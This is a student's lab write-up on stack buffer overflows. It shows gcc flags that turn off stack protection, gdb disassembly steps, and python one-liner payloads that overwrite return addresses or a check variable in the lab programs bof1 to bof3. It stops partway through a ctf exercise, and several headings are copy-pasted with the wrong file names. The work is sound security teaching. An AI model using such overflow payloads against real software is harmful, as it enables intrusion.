

# 22110016_Nguyễn Hữu Danh

# Lab 1 :

## bof1 :


<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof1 into gdb and observe secretFunc to get address

```
gdb bof1.out
```

```
disas secretFunc
```


<br>

#### 3. Exploiting a buffer overflow in the bof1.out program by overwriting the return address in the stack and shifting the program's control flow to the address 0x0804846b

```
echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out
```

#### 4.Result :


<br>

## bof2 :


<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof2 into gdb then exploits a buffer overflow vulnerability, overwriting the variable check in memory. After the input string is fed into the program, the value of check is changed from 0x04030201 to 0xdeadbeef, resulting in the program printing "Yeah! You win!".

```
gdb bof2.out
```

- When the input string exceeds the size of the buf array, it will overwrite the check variable. Since check has been changed to 0xdeadbeef, the if (check == 0xdeadbeef) condition will become true, and the program will print "Yeah! You win!".

```
echo $(python -c "print('a' *40 + '\xef\xbe\xad\xde')") | ./bof2.out
```

#### 3. Result


<br>

## bof3 :


<br>

#### 1. compile bof1.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. load bof3 into gdb and observe sup to get address

```
gdb bof3.out
```

```
disas sup
```


<br>

#### 3. Exploiting a buffer overflow in the bof1.out program by overwriting the return address in the stack and shifting the program's control flow to the address 0x0804846e

```
echo $(python -c "print('a' *128 + '\x6e\x84\x04\x08')") | ./bof3.out
```

#### 4.Result :


<br>

## ctf :


<br>

#### 1. compile ctf.c with gcc and turn off stack smashing & also aligns values ​​that are not multiples of 2 so that they are all at an even address

```
gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2
```

#### 2. Adjust the system settings to disable address randomization
